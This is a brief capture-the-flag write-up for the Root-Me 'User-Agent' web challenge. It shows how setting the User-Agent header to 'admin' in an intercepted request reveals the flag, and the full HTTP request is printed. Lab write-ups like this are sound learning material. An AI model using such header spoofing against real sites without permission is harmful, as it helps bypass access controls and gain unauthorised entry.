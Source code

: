 # Question
User-Agent

## Description
The admin is really dumb

## Solution

This one was really simple, we have to verify as admin user so just intercept the burp request and change user to admin which gives the flag
` GET /web-serveur/ch2/ HTTP/1.1  

Host: challenge01.root-me.org  

Cache-Control: max-age=0  

Accept-Language: en-US,en;q=0.9  

Upgrade-Insecure-Requests: 1  

User-Agent: admin  

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  

Accept-Encoding: gzip, deflate, br  

Cookie: _ga=GA1.1.1448696352.1759118406; _ga_SRYSKX09J7=GS2.1.s1759121098$o2$g1$t1759122883$j20$l0$h0  

Connection: keep-alive
`

